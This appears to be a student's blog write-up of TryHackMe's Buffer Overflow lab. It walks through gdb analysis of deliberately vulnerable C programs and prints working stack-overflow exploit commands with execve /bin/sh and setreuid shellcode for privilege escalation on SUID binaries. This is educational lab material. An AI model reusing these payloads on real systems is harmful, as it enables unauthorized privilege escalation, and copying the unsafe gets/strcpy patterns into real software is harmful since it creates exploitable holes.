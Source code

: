 #+TITLE: My first (proper?) buffer overflow
#+DATE: <2023-12-05 13:34>
#+DESCRIPTION: 
#+FILETAGS: tryhackme

* Introduction
Everyone that works with computers has heard of the term buffer
overflow. It is not uncommon to cause such an unwanted behavior when
writing code yourself, over populating memory or performing prohibited
read/write operations. However, even though I understood what was
happening in a broader sense, I did not have any experience with
buffer overflows. Thankfully, my project on the Computer Network
Security course, reading on [[https://ieeexplore.ieee.org/document/6547101][this paper]], gave me "a reason" to try and
get into more depth. [fn:1]

I saw a couple of videos, wrote more than my fair share of articles,
and dug into one or more websites, but in the end, when I tried
TryHackMe's Buffer Overflow room, I was stuck.

* Criticism
I feel that this room could (and should) be improved. While it *does*
serve as an introduction to Buffer Overflow, it surely is not a
tutorial/walkthrough targeted towards beginners, implied by its "easy"
difficulty.

It was rather disheartening, to see myself get so stuck.

* Task 7
In this task we are asked to get ~special~, instead of ~normal~ to
execute:
#+NAME: Vulnerable c code
#+begin_src c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

void special()
{
    printf("this is the special function\n");
    printf("you did this, friend!\n");
}

void normal()
{
    printf("this is the normal function\n");
}

void other()
{
    printf("why is this here?");
}

int main(int argc, char **argv)
{
    volatile int (*new_ptr) () = normal;
    char buffer[14];
    gets(buffer);
    new_ptr();
}
#+end_src

Launching GDB:
#+NAME: GDB initialization
#+begin_src bash
 gdb ./func-pointer
#+end_src


I had not played around with gdb before, so I did not have any
ready-to-go set of notes available, and had to build my own from
scratch. 

To view the assembly commands and memory addresses for each function I
used the following:
#+begin_example
disassemble main
disassemble special
disassemble normal
#+end_example


#+caption: Interesting assembly commands and locations
[[file:images/Task_7/20231205_142939_screenshot.png]]

At this point, I knew that the two variables, pointer and buffer were
adjacent in memory, and since ~gets()~ is vulnerable to buffer
overflows, that means I could potentially use it to write to the ~new_ptr~

I also knew that:
- ~0x400582~ is the address of normal
- ~0x400567~ is the address of special

Having seen a related LiveOverflow video (an old one that got me
thinking of how slowly experience builds up), I was aware of the
~define hook-stop~ functionality to print specific parts of memory and
or registers at each break point, so all I had to do was set proper
breakpoints and fool around with the input.

In the end, I only needed one breakpoint, which I placed at position 2
in the image above: I just wanted to see the memory right before the
execution of the function ~new_ptr~ pointed to.

Then I started experimenting:
- ~run~
- give input
- see memory
- repeat


It quickly become evident that I was writing in the highlighted area,
and wanted to change the contents of the "circled" one's:
#+caption: Highlighting memory dump
[[file:images/Task_7/20231205_143929_screenshot.png]]

Unfortunately, I could not get the payload I had created to work
inside of gdb, not knowing how to get it to parse my input as hex: I
could see that I modified the target area (first payload), but the
second one could not work, to set it to its proper value (0x400567)

#+begin_example
AAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAA\x67\x05\x40\x00
#+end_example

#+caption: Setting ~new_ptr~ to all As
[[file:images/Task_7/20231205_144132_screenshot.png]]

To bypass this I relied on ~echo~: 

#+caption: Solution
 [[file:images/Task_7/20231205_140516_screenshot.png]]

 
* Task 8
#+begin_note
This was the first buffer overflow I attempted that resulted in the
execution of a different program for Privilege Escalation. Mistakes
are undoubtedly plenty, and if you find any, please feel free to
correct me in the comments.
#+end_note

#+NAME: Task 8 vulnerable code
#+begin_src c
#include <stdio.h>
#include <stdlib.h>

void copy_arg(char *string)
{
    char buffer[140];
    strcpy(buffer, string);
    printf("%s\n", buffer);
    return 0;
}

int main(int argc, char **argv)
{
    printf("Here's a program that echo's out your input\n");
    copy_arg(argv[1]);
}
#+end_src

Keeping it short,  when a function ends, the return address - the
address from which the computer should continue - exists in memory.
One (not-so-innocent) user, might try to modify this, so that another
program executes, thus modifying the flow of the program.

Even though I suppose that this is not actual reverse engineering -
but focusing only on the buffer overflow part of the challenge: We
know the source code: The snippet above gives us 140 bytes to store
information, before it prints it to the command line. We could, and
this is the target of this task, populate /some/ of these 140 bytes with
a shellcode (code to spawn a shell for us), and modify the return
address of the ~copy_arg()~ function, so that when it is finished, it
does not return to ~main()~ but executes our payload, residing inside of
the ~buffer~ variable.

In addition to those 140 bytes to populate, we should also add enough
contents to overwrite the return value of the function.


#+begin_quote
Silly as it may seem, chatgpt does more than just a fine job helping
you revise assembly. It was fun analyzing where I should look at :P
#+end_quote


#+caption: Filling buffer with A's and checking the return address
[[file:images/Task_8/20231205_234129_screenshot.png]]

Through experimentation we can understand the following:
- The highlighted one's (and the 0x41s in between) are our input
- The address in the block is the return address - the command
  following ~copy_arg~ in main

So while our input did its job of populating the buffer variable, it
needs to be improved to work for us:
- Glancing at the picture we can see that the return address is found
  152 bytes after the first 'A' (0x41), and has a length of 4 bytes,
  meaning that we are interested in the bytes 152-156.

After modifying our input string just a little bit, we /hope/ to get the
return address "populated" with As.

#+caption: Overwritten return address
[[file:images/Task_8/20231205_234916_screenshot.png]]

The '\x90' string is the NOP (no operation) flag, and is extremely
useful when used as padding, because when assembly gets evaluated and
a NOP flag is encountered it is simply skipped (does not cause any errors) 

At this point, focusing on the buffer overflow and not on the
shellcode, I got the hex shellcode from a writeup to continue. (The
one in the room did not seem to work). This is 40 bytes.

#+begin_example
\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05
#+end_example

Modifying our input string once again to include the shellcode and the
buffer's address as a return address (remember, NOP), we expect to get
a shell:
- 0x7fffffffe370 becomes:
  - '\x70\xe3\xff\xff\xff\x7f'
  - Appended to our "payload"

#+NAME: Bufferoverflow
#+begin_src bash
/home/user1/overflow-3/buffer-overflow $(python -c "print ('\x90'*100 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A'*12 + '\x70\xe3\xff\xff\xff\x7f')")
#+end_src
- That did not work at first for me because of a peculiar floating
  error. After inspecting my "payload" again and again I replaced the
  second padding with As instead of NOPs. It then worked.


Getting a shell, though, is not enough, since we do not have
permission to view the file we want (we remain as the same user,
despite the suid bit). We want to change our shellcode to have a
~setuid()~ statement in it:
- This is cheating, but once again, I reused someone else's shellcode,
  even though I knew about real and effective uids. It was out of
  scope for "my investigation" to get the shellcode.

#+begin_src bash
/home/user1/overflow-3/buffer-overflow $(python -c "print ('\x90'*86 + '\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A'*12 + '\x70\xe3\xff\xff\xff\x7f')")
#+end_src

* Task 9
This seems exactly the same as before. Let's see if we can tackle it quickly:
#+NAME: Vulnerable code
#+begin_src c
#include <stdio.h>
#include <stdlib.h>

void concat_arg(char *string)
{
    char buffer[154] = "doggo";
    strcat(buffer, string);
    printf("new word is %s\n", buffer);
    return 0;
}

int main(int argc, char **argv)
{
    concat_arg(argv[1]);
}
#+end_src

- doggo has 5 characters length, meaning that there are 149 more
  characters left to fill buffer. After that, there will be a padding
  and the return address.
- Following the same methodology as before, I fired up ~gdb~, set
  ~stop-hook~ up and ...

#+caption: Started from the bottom now we here
[[file:images/Task_9/20231206_002813_screenshot.png]]

I then created the setuid payload once again, and proceeded to
modify the payload to fit in our example.
#+begin_example
root@ip-10-10-80-64:~# pwn shellcraft -f d amd64.linux.setreuid 1003
\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05
#+end_example

Namely the changes (compared to task 8):
1. Different size - but we can still use the same payload:
   - Bytes 164-170 are of interest now
   - Our payload remains 54 bytes in length, so with a padding of 100
     and 9 we should be fine.
2. Different user id:
   - Already fixed in our setuid payload (went ahead and checked )
3. Different address:
   - As shown in the image above:
     - 0x7fffffffe3b0
     - 0xb0e3ffffff7f
     - \xb0\xe3\xff\xff\xff\x7f
#+begin_src bash
./buffer-overflow-2 $(python -c "print ('\x90'*99 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A'*10 + '\xb0\xe3\xff\xff\xff\x7f')")
#+end_src

That should work but I'm still getting segmentation fault. I suspect 
that my shell code address is somehow wrong. (Strangely, this somehow
worked after I modified the address to something closer to my
shellcode address in gdb - even though I had used an address pointing
to the preceding NOPs)

* In conclusion
This might be one of the best rooms I have ever checked out and I am
glad I did.

* Links:
Although I usually keep myself from searching for walkthroughs and
solutions, this time, partly due to the insufficiency of the
instructions and partly due to my inability to see what went wrong in
my good-looking attempts to solve each task , I have checked some
articles covering that same room
- https://l1ge.github.io/tryhackme_bof1/
  - I really liked the way of writing.
- https://bobloblaw321.wixsite.com/website/post/tryhackme-buffer-overflows 
  - Nice explanation of step 7. It was the author's comment on the
    proper way of entering input that made me realize my payload was
    not wrong, but the way I delivered it was.
- https://stackoverflow.com/questions/32345320/get-return-address-gdb
  - The ~info frame~ command helped me better understand 

* Footnotes

[fn:1] I am planning on publishing the resulting work here as soon as
I finish it. It was invigorating to see how my previous work,
structure and collection/organization allowed me to effectively tackle
the task of writing an academic paper. Maybe some notes on that are
due as well.
